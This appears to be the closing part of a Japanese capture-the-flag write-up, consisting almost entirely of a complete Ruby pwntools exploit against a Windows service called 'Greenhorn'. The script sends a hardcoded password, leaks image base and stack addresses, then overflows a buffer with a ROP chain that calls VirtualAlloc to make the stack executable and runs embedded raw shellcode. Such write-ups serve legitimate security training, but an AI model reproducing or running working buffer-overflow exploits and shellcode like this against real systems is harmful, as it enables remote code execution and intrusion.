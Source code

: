 最後に、以下にexploit の全体コードを示す。

```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'

host = '192.168.0.109'
port = 9998
$z = Sock.new host, port
def z; $z; end
context.log_level = :info

password = "GreenhornSecretPassword!!!"
puts "Password: #{password}"
z.recvuntil "Password: "
z.sendline password
z.recvuntil "Selection: "

puts "[*] Select A to leak and calculate some addresses"
z.sendline "A"
tmp = z.recvuntil "Selection: "
text_base = tmp.match(/is: (.*) /)[1].to_i(16)
stack_addr = tmp.match(/at: (.*)\./)[1].to_i(16)
pop_ecx_ret = text_base + 0x0040178c
jmp_memory = text_base + 0x0040110d
puts "image base address        : 0x%x" % text_base
puts "Stack address             : 0x%x" % stack_addr
puts "pop ecx; ret              @ 0x%x" % pop_ecx_ret
puts "jmp dword[0x401160+ecx*4] @ 0x%x" % jmp_memory

puts "[*] Select V to overflow"
z.sendline "V"
z.recvuntil ").\n\n"

shellcode = "\xFC\xEB\x67\x60\x33\xC0\x64\x8B\x40\x30\x8B\x40\x0C\x8B\x70\x14\xAD\x89\x44\x24\x1C\x8B\x68\x10\x8B\x45\x3C\x8B\x54\x05\x78\x03\xD5\x8B\x4A\x18\x8B\x5A\x20\x03\xDD\xE3\x39\x49\x8B\x34\x8B\x03\xF5\x33\xFF\x33\xC0\xAC\x84\xC0\x74\x07\xC1\xCF\x0D\x03\xF8\xEB\xF4\x3B\x7C\x24\x24\x75\xE2\x8B\x5A\x24\x03\xDD\x66\x8B\x0C\x4B\x8B\x5A\x1C\x03\xDD\x8B\x04\x8B\x03\xC5\x89\x44\x24\x1C\x61\x59\x5A\x51\xFF\xE0\x8B\x74\x24\x1C\xEB\xA6\x68\x6B\x65\x79\x00\x8B\xC4\x6A\x00\x6A\x00\x50\x68\x6E\x0C\x2E\xE1\xE8\x83\xFF\xFF\xFF\x8B\xD8\x68\x00\x01\x00\x00\x8D\xAC\x24\x00\x01\x00\x00\x55\x53\x68\xA4\x09\x0E\xE7\xE8\x69\xFF\xFF\xFF\x68\x00\x01\x00\x00\x55\x6A\x01\x68\xD5\x8A\xA7\x67\xE8\x57\xFF\xFF\xFF\x68\x7E\xD8\xE2\x73\xE8\x4D\xFF\xFF\xFF\x00\x00\x00\x00\x6E\x8F\x87\x5D\x00\x00\x00\x00\x0D\x00\x00\x00\x40\x00\x00\x00\x1C\x20\x00\x00\x1C\x04\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\xB6\x00\x00\x00\x2E\x74\x65\x78\x74\x24\x6D\x6E\x00\x00\x00\x00\x00\x20\x00\x00\x1C\x00\x00\x00\x2E\x72\x64\x61\x74\x61\x00\x00\x1C\x20\x00\x00\x50\x00\x00\x00\x2E\x72\x64\x61\x74\x61\x24\x7A\x7A\x7A\x64\x62\x67\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"

payload = "C" * 1028          # 1028 byte
payload << p32(pop_ecx_ret)   # Overwrite return address
payload << p32(936)           # ecx <- 936
payload << p32(jmp_memory)    # jmp dword [0x401160+ecx*4] -> 0x402000 (VirtualAlloc)
payload << p32(stack_addr+44) # the head address of shellcode
payload << p32(stack_addr)    # lpAddress
payload << p32(1024)          # dwSize = 1024
payload << p32(0x1000)        # flAllocationType = MEM_WRITE
payload << p32(0x40)          # flProtect = PAGE_EXECUTE_READWRITE
payload << shellcode
puts "[*] Send payload"
z.sendline payload
puts z.recvuntil "}"
```

